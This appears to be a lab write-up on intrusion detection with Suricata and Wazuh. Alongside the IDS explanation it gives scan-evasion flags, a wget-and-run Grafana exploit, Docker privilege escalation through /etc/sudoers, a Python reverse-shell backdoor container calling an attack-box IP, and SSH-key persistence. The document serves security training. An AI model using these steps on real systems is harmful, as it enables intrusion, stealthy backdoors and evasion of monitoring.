

# task 8 - Intrusion Detection

## Intrusion Detection Basics

Intrusion Detection Systems (IDS) monitor network activity to spot threats. They come in two types: Signature-based IDS, which uses predefined rules to detect suspicious behavior, and Anomaly-based IDS, which alerts when activity deviates from normal patterns. When an IDS detects an incident, it sends alerts to tools like Graylog or ELK Stack for further analysis.

In this demo, we use two signature-based IDS: Suricata (network-based) and Wazuh (host-based). Both detect threats using signatures but differ in their detection capabilities and behavior. We'll explore these differences in detail later.

## Network-based IDS (NIDS)

Network Intrusion Detection Systems (NIDS) watch network traffic for signs of malicious or unwanted activity — things like malware command‑and‑control, exploitation tools, scanning, data exfiltration, phishing contacts, or policy violations. A single NIDS installation can monitor an entire network, which simplifies deployment, but high traffic volume and overlapping legitimate behavior make false positives common; tuning (observing normal traffic for a while) helps reduce them. NIDS are usually placed inside the LAN (not outside the firewall) and may include intrusion‑prevention features, though automatic blocking is often disabled because of false positives. NIDS also depend on seeing traffic in cleartext, so in‑transit encryption reduces their visibility.



## Reconnaissance and Evasion Basics

Run a baseline nmap scan first:

```
nmap -sV MACHINE_IP
```

Most NIDS (like Suricata) will detect the default nmap user‑agent and noisy HTTP probes. Check alerts at `http://MACHINE_IP:8000/alerts`.

Simple evasion tips:

- Change the User‑Agent to reduce signature hits:
    
    ```
    nmap -sV --script-args http.useragent="Your-Agent" MACHINE_IP
    ```
    
- Vulnerability scripts (`-script=vuln`) return lots of info but also many alerts.
- Use a SYN “stealth” scan to be quieter:
    
    ```
    nmap -sS MACHINE_IP
    ```
    
    (Gives less info — evasion vs. visibility trade‑off.)
    

Other important points:

- Public targets may be noisy already (your scan can blend in) but may also have rate‑limiters like fail2ban.
- Internal or sensitive assets: even one alert can be serious.
- Evasion can be **complete** (no alerts) or **partial** (lower‑severity alerts). Partial evasion is often enough because some NIDS alerts don’t get escalated.


## Further Reconnaissance Evasion

Nikto is an aggressive web scanner — it finds lots of issues but also makes a huge noise to IDS.

Quick workflow and tips:

- Baseline scan (both web services):
    
    ```
    nikto -p 80,3000 -h MACHINE_IP
    ```
    
    — returns lots of alerts (~7000).
    
- Narrow the target to reduce noise:
    
    ```
    nikto -p 3000 -h MACHINE_IP
    ```
    
- Only check useful categories (faster, fewer false positives):
    
    ```
    nikto -p 3000 -T 1 2 3 -h MACHINE_IP
    ```
    
- Change the User‑Agent to avoid default signatures:
    
    ```
    nikto -p 3000 -T 1 2 3 -useragent "Your-Agent" -h MACHINE_IP
    ```
    
- Evasion flags (may backfire — can increase alerts by producing malformed requests):
    
    ```
    nikto -p 3000 -T 1 2 3 -useragent "Your-Agent" -e 1,7 -h MACHINE_IP
    ```
    
    (example: random URL encoding and casing)
    

Key takeaways:

- Tuning and limiting scope reduces IDS noise and speeds scans.
- Evasion options can lower simple signature hits but often create unusual traffic that modern NIDS (like Suricata) still detect.
- More extreme evasion (botnets, distributed scans) isn’t practical or ethical in most environments.


## Open-source Intelligence

OSINT is like passive sonar — you gather information the target already publishes instead of actively probing it. That makes it stealthy (IDS‑undetectable), but it only works if the target has publicly exposed data.

Useful OSINT sources & techniques:

- Shodan to discover exposed services and ports.
- Search engines with operators (`site:`, `filetype:`, `intitle:`) to find leaked files or pages.
- Subdomain/IP enumeration (recon‑ng, online scanners) to find related hosts or misnamed subdomains.
- ASN/WHOIS lookups to identify hosting providers or registrars.
- Inspect the target site for server headers, error pages, file extensions, debug pages, and job listings for tech stack clues.


## Rulesets

Signature‑based IDS only detect what their rules know about — so rule quality and timely updates are critical. Poor or outdated rules cause false positives (noise) and false negatives (missed attacks).

In this demo you’ve found a known Grafana directory‑inclusion bug with a signature in the Emerging Threats ruleset. To test it, download and run the exploit:

```bash
wget https://raw.githubusercontent.com/Jroo1053/GrafanaDirInclusion/master/src/exploit.py
python3 exploit.py -u MACHINE_IP -p 3000 -f <REMOTE_FILE_TO_READ>
```

The exploit runs with the service’s privileges, so look for readable files that user can access. Afterwards, check IDS alerts at `http://MACHINE_IP:8000/alerts` to see whether Suricata/Wazuh flagged the activity — rule coverage isn’t perfect, so it may or may not be detected.


## Host Based IDS (HIDS)

Host‑based IDS (HIDS) complement NIDS by watching activity **on** a machine rather than network traffic. NIDS sees packets; HIDS sees processes, files and logs — so HIDS can catch things NIDS misses (e.g., malware execution, file‑integrity changes, registry tampering, privilege escalation, config changes).

Key points, short and clear:

- **Why both:** NIDS catches network attacks and scans; HIDS detects local events (malware running, log changes) that won’t show up on the wire until it “calls home.”
- **Common HIDS data sources:** application/system logs, Windows registry, file‑system state, performance metrics.
- **Operational cost:** HIDS needs an agent per host and often custom configuration (log paths, containers, apps). Scale requires automation (Ansible, similar).
- **Rule coverage:** Both rely on good rules; misconfiguration causes missed detections or noise.
- **Demo behavior:**
    - `nmap -sV MACHINE_IP` → Suricata (NIDS) flags HTTP activity; Wazuh (HIDS) will flag the SSH attempt.
    - `nmap --script=vuln MACHINE_IP` → Wazuh may generate many alerts because HTTP 400/errored requests are logged and picked up by the agent.


## Privilege Escalation Recon

Privilege escalation is usually detected by HIDS because it involves local actions that don’t show up on the network. First check your current privileges:

- `sudo -l` — lists commands you can run as root
- `groups` — shows group membership
- `cat /etc/group` — lists all groups and members

Run those and note IDS alerts — Suricata (NIDS) won’t see them because there’s no network traffic. Use `linPEAS` to automate discovery of escalation vectors; it finds many useful leads but often increases alerts (and would likely trigger antivirus if present). Be aware that transferring tools to the host (e.g., `wget`) can be detected by NIDS unless encrypted, and HIDS can catch new or modified files via file‑integrity monitoring.


## Performing Privilege Escalation

Docker-based privilege escalation

- Root cause: adding a user to the `docker` group allows that user to run containers that can access and modify the host filesystem — effectively granting root capabilities.
- Quick exploration (as `grafana-admin`):

```bash
# spawn an interactive container with the host FS mounted
docker run -it --entrypoint=/bin/bash -v /:/mnt/ ghcr.io/jroo1053/ctfscoreapache:master
```

- From inside the container you can modify host files to escalate, for example:

```bash
# add grafana-admin to sudoers (gives passwordless root)
echo "grafana-admin ALL=(ALL) NOPASSWD: ALL" >> /mnt/etc/sudoers
```

- Alternatives: edit `/mnt/etc/group` or `/mnt/etc/passwd` to add users/groups — all achieve the same effect.

Detection & cautions

- HIDS (Wazuh) watches these files ( `/etc/sudoers`, `/etc/group`, `/etc/passwd` ) with file‑integrity checks — such edits will likely generate alerts.
- NIDS (Suricata) won’t see the local file changes, but may detect container image downloads (`wget`/HTTP) or other network activity.
- Always review alerts after testing (e.g., `http://MACHINE_IP:8000/alerts`) and expect HIDS to flag host‑file modifications.


## Establishing Persistence

When you compromise a Linux host, a common persistence method is adding your SSH public key to `/root/.ssh/authorized_keys` to access root remotely without re-exploitation. However, this triggers alerts from file integrity monitoring and SSH connection logs in HIDS like Wazuh.

To check the HIDS config, view `/var/ossec/etc/ossec.conf` which shows monitoring of:

- File system changes (detects ssh keys, cron jobs, systemd modifications)
- System logs (detects SSH connections)
- System inventory (detects new ports, packages, processes)

Docker monitoring is disabled, which lets us use Docker-based persistence stealthily.

**Recommended stealthy persistence using Docker:**

1. Create a docker-compose file (`docker-compose-backdoor.yml`) on the compromised host containing:

```yaml
textversion: "2.1"
services:
  backdoorservice:
    restart: always
    image: ghcr.io/jroo1053/ctfscore:master
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<ATTACKBOXIP>",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```

Replace `<ATTACKBOXIP>` with your attack machine’s IP.

1. On your attack machine, listen for the reverse shell connection:

```bash
nc -lvnp 4242
```

1. On the compromised host, run the backdoor container:

```bash
docker-compose -f docker-compose-backdoor.yml up -d
```

This will:

- Launch a privileged container with full host filesystem access (`/mnt`)
- Spawn a Python reverse shell back to your attack box
- Restart automatically for persistence

**Alternative (less stealthy) SSH key addition:**

Generate SSH key on your attack machine:

```bash
ssh-keygen -t rsa -b 2048 -f ~/.ssh/mykey
```

Copy the public key to the compromised host and append it to root’s `authorized_keys`:

```bash
cat mykey.pub | ssh user@target 'sudo mkdir -p /root/.ssh && sudo tee -a /root/.ssh/authorized_keys'
```

Note: This method is easily detected and not recommended.

## Conclusion

Intrusion detection systems monitor both network traffic and host activity to catch threats. Tuning and evading alerts during reconnaissance helps but won’t make you invisible. Privilege escalation and persistence methods, like using Docker containers, can offer stealthy access without raising alarms. Understanding how IDS works alongside these techniques is key to staying hidden while maintaining control.
